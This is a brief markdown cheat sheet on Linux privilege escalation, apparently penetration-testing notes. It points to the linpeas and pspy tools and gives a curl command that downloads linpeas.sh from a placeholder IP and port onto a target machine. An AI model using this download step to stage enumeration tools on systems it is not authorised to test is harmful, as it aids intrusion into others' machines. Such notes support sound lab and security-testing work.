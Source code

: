 ```yaml
---
title: PrivEsc Linux 🐱
---
```


- Use [linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20240211-db8c669a)
- Use [pSpy](https://github.com/DominicBreuker/pspy/releases)

- If you can't use wget, try this with **curl**; `curl -o filename http://IP:port/linpeas.sh`



